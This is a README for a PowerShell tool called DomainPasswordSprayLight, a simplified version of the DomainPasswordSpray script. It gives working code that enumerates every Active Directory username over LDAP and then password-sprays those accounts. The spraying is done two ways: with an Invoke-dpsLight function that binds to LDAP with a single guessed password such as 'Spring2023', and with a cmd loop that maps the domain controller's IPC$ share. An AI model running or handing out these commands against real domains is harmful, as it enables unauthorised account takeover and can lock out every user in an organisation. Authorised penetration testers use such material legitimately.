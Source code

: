 # DomainPasswordSprayLight

Kudos to Beau Bullock and his [Domain Password Spray Script](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) of which this is a simplification.

## Gather Domain Usernames

Run the following to get a PowerShell object called $AllUserObjects that you can interact with to sort, filter and write seletected usernames to a file of your choosing.

```PowerShell
$UserSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$CurrentDomain)
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry
$UserSearcher.SearchRoot = $DirEntry
$UserSearcher.PropertiesToLoad.Add("samaccountname") | Out-Null
$Filter = ""
$UserSearcher.filter = "(&(objectCategory=person)(objectClass=user)$Filter)"
$UserSearcher.PageSize = 1000

Write-Host -ForegroundColor Cyan "Searching for all users, this may take several minutes."
$AllUserObjects = $UserSearcher.FindAll()
Write-Host -ForegroundColor "yellow" ("[*] " + $AllUserObjects.count + " total users found.")
```

### Write all usernames to a file

```PowerShell
$outfile = "all-user.txt"
Remove-Item $outfile -ErrorAction Ignore
$AllUserObjects.Properties.samaccountname | add-content $outfile
```

### Write specific users to a file

In this example, the usernames are limited to only those that start with "ab"

```PowerShell
$outfile =  "all-ab-accounts.txt" 
Remove-Item $outfile -ErrorAction Ignore
($AllUserObjects | where-object {$_.Properties.samaccountname -like  "ab*"}).Properties.samaccountname | add-content $outfile
```
## Password Spray with PowerShell

First, copy and paste the Invoke-dpsLight function below into your PowerShell window. This will not run the password spray but will make the Invoke-dpsLight function available for us to use.

```PowerShell
function Invoke-dpsLight ($Password, $userlist) {
    $users = Get-Content $userlist
    $Domain = "LDAP://" + ([ADSI]"").distinguishedName
    $count = 0
    foreach ($User in $users) {
        $count = $count + 1
        $Domain_check = New-Object System.DirectoryServices.DirectoryEntry($Domain, $User, $Password)
        if ($Domain_check.name -ne $null) {
            Write-Host -ForegroundColor Green "Password found for User:$User Password:$Password"
        }
        else {
            Write-Host "$count`:$User " -NoNewline
            # start-sleep -milliseconds 300
        }
    }
    Write-Host -ForegroundColor green "Finished"
}
```

Next, you can execute the follow to run the password spray. Be very careful. You could lock every user in the domain out using this script. Don't run it multiple times in a short period of time. In this example, `Spring2023` is the password guess and **all-ab-users.txt** is the list of usernames to try the password on.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt
```

Or, if you want to output the results to a file in addition to on the screen you can use the following.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt 2 *>&1 | tee -Append out.txt
```

## Password Spray from the Command Prompt

This method using a different method which generates different Windows event IDs. It is also much slower.

The command below loops through a list of users and attempts to map the IPC$ share on the domain controller in order to determine if the password is correct or not. If it is correct, it echos a message to the screen and then unmaps/disconnects from the IPC$ share.

This example uses a password of `Spring2023` against a list of users called **users.txt** in the current directory.

```cmd
@FOR /F "delims=" %n in (users.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "Spring2023" 1>NUL 2>&1 && @echo [*] %n:Spring2023 && @net use /delete %logonserver%\IPC$ > NUL
```
